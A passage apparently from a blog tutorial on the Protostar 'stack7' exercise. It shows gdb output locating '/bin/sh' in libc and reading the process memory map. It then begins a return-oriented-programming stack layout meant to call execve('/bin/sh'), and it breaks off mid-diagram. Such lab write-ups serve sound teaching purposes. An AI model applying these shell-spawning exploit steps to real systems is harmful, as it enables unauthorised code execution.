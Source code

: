 $1 = {<text variable, no debug info>} 0x555ce310 <system>
gdb$ find $1, +99999999999, "/bin/sh"
0x556ee84c                                                    <------------- BIN/SH location!
warning: Unable to access 16000 bytes of target memory at 0x5573ca54, halting search.
1 pattern found.
gdb$ shell
le91688:~/workspace/proto$ ps -aux | grep stack7
ubuntu     29655  0.1  0.0  47856 18112 pts/5    S    13:12   0:00 gdb ./stack7
ubuntu     29658  0.0  0.0   2028   556 pts/5    t    13:12   0:00 /home/ubuntu/workspace/proto/stack7
ubuntu     29686  0.0  0.0  10556  1608 pts/5    S+   13:13   0:00 grep --color=auto stack7
le91688:~/workspace/proto (master) $ cat /proc/29658/maps
08048000-08049000 r-xp 00000000 00:245 386                               /home/ubuntu/workspace/proto/stack7
08049000-0804a000 rwxp 00000000 00:245 386                               /home/ubuntu/workspace/proto/stack7
55555000-55575000 r-xp 00000000 00:245 9405                              /lib/i386-linux-gnu/ld-2.19.so
55575000-55576000 r-xp 0001f000 00:245 9405                              /lib/i386-linux-gnu/ld-2.19.so
55576000-55577000 rwxp 00020000 00:245 9405                              /lib/i386-linux-gnu/ld-2.19.so
55577000-55579000 r--p 00000000 00:00 0                                  [vvar]
55579000-5557a000 r-xp 00000000 00:00 0                                  [vdso]
5557a000-5557c000 rwxp 00000000 00:00 0 
5558e000-55736000 r-xp 00000000 00:245 9410   Target------------->       /lib/i386-linux-gnu/libc-2.19.so   
55736000-55737000 ---p 001a8000 00:245 9410                              /lib/i386-linux-gnu/libc-2.19.so
55737000-55739000 r-xp 001a8000 00:245 9410                              /lib/i386-linux-gnu/libc-2.19.so
55739000-5573a000 rwxp 001aa000 00:245 9410                              /lib/i386-linux-gnu/libc-2.19.so
5573a000-5573e000 rwxp 00000000 00:00 0 
fffdd000-ffffe000 rwxp 00000000 00:00 0  
{% endhighlight %}

So we have can see that our library libc-2.19.so is loaded in memory starting at 0x5558e000 and our binsh pointer value needs to be 0x556ee84c

We are starting to get a pile of info, but I promise it will all come together soon, beautifully! Next, lets design our stack:
{% highlight nasm %}
//higher memory
+----------------------+
|   INT0x80            |  syscall should be "execve( "/bin/sh",0,0)
+----------------------+
|   add eax, 0xb ; ret |  add 0xb to EAX (to call execve with 11)
+----------------------+
|   xor eax,eax ; ret  |  ensure EAX is 0
+----------------------+
|   \x00\x00\x00\x00   |
+----------------------+
|   ptr to "/bin/sh/"  |  
+----------------------+
|pop $ecx,pop $ebx; ret|  load ECX with NULL and EBX with 'bin/sh'
+----------------------+
|  \x00\x00\x00\x00    |
+----------------------+